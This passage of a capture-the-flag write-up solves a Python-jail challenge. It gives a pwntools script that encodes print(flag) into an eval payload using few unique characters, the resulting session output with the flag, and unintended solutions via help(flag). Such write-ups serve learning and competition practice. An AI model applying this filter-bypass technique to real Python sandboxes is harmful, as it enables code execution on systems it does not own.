 It is wonderful !! The unique characters used is just `10`. Now you can run the following command: `print(flag)`

You can create the `explotit code` below.

```python
from pwn import *

conn = remote("canyouguessme.pwni.ng", 12349)

def make_payload(command):
	payload  = "eval("
	for i in command:
		payload += "chr("
		for j in range(0, ord(i)):
			payload += "all(chr(val))+"
		payload = payload[:-1]
		payload += ")+"
	payload = payload[:-1]
	payload  += ")"
	return payload


conn.recvuntil("Input value: ")
payload = make_payload("print(flag)")
conn.sendline(payload)

conn.interactive()
```

You can get the flag by executing the above code.

```
[+] Opening connection to canyouguessme.pwni.ng on port 12349: Done
[*] Switching to interactive mode
PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}
Nope. Better luck next time.
[*] Got EOF while reading in interactive
$  
```


## unintend solution

After the competition, I realized that there was an `unintend solution` through other people's write-ups. `help(flag)` and `print(vars())` both consist of less than 10 unique characters.

**help(flag)**
```

  ____         __   __           ____                     __  __       
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___  
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: help(flag)
No Python documentation found for 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}'.
Use help() to get the interactive help utility.
Use help(str) for help on the str class.

Nope. Better luck next time.
```
